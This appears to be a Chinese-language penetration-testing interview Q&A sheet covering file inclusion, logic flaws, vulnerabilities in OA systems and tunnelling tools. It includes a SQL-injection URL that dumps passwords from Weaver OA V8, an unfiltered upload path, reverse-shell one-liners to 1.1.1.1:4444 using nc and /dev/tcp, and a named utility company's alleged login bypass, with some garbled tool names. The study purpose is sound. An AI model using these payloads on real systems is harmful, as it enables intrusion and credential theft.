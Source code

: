 **Q：文件上传的原理及利用方式？**
A：引入一段可控代码，令服务端通过include函数等动态执行。

**Q：导致文件包含的函数有哪些？**
A：
	PHP：`include()`、`require()`、`fopen()`、`readfile()`
	JSP：`ava.io.File()`、`java.io.FileReader()`
	ASP：`include file`、`include virtual`
	`include`报错继续执行，`require`报错退出。

## 逻辑漏洞

**Q：有哪些常见的逻辑漏洞？**
A：
	密码找回漏洞：密码允许暴力破解、存在通用型找回凭证、绕过验证步骤、找回凭证可以拦包。
	身份认证漏洞：固定会话攻击、Cookie仿冒，只要得到二者之一就可以伪造用户身份。
	验证码漏洞：验证码允许暴力破解、验证码可以通过js或改包的方式逃过。

**Q：挖掘过的业务逻辑漏洞？**
A：益阳市自来水有限公司存在登录绕过漏洞，在后台登录页面输入任意用户名密码，在验证返回后，服务器向客户端发送的报文中包含isSuccess字段，将其值改为True就能绕过登录逻辑直接以管理员身份进入系统。

## OA

**Q：常见的OA系统有哪些？**
A：泛微OA、织信OA、致远OA、蓝凌OA。

**Q：泛微OA的漏洞**
A：SQL注入漏洞：在泛微OA V8中的getdata.jsp文件里，通过gatData方法将数据获取并回显在页面上，而在getData方法中，判断请求里cmd参数是否为空，如果不为空，调用proc方法。其中它存在四个参数，分别为空字符串、cmd参数值、request对象以及serverContext对象，通过对cmd参数值进行判断，当cmd值等于getSelectAllId时，再从请求中获取sql和type两个参数值，并将参数传递进getSelectAllIds（sql,type）方法中，从而在前台构造POC：`http://xxx.xxx.xxx.xxx/js/hrm/getdata.jsp?cmd=getSelectAllId&sql=select%20password%20as%20id%20from%20HrmResourceManager`访问存在漏洞的网站：`http://x.x.x.x/login/Login.jsp?logintype=1`，其中该特征属于泛微OA v8系统。
文件上传漏洞：漏洞位于: /page/exportImport/uploadOperation.jsp文件中。Jsp流程大概是:判断请求是否是multipart请求,直接上传。重点关注File file=new File(savepath+filename)。Filename参数,是前台可控的,并且没有做任何过滤限制。然后请求 然后请求路径:page/exportImport/fileTransfer/1.jsp


## 隧道与代理

**Q：常见的隧道或代理软件？**
A：CS（设置代理）、msf（添加路由）、frp（反向代理）、ngork（内网穿透）、ew（正反向代理）、nc（弹shell）、proxychains、nginx（反向代理）、proxifier（socks5客户端）、reGeorg、wevely、ssh。

**Q：需要正向代理的情况？**
A：内网中有不能被外部访问但可以访问外部的设备，需要在中间跳板机上设置正向代理。

**Q：需要反向代理的情况？**
A：内网中有不出网的机器，在中间跳板机上设置反向代理，将内网机器映射到公网上。

**Q：如何反弹shell？**
A：
	nc：攻击机（`nc -lvp 4444`）、靶机（`nc 1.1.1.1 4444 -e /bin/bash`）
	bash：攻击机（`nc -lvp 4444`）、靶机（`bash -I >& /dev/tcp/1.1.1.1/4444 0>&1 /bin/bash`）
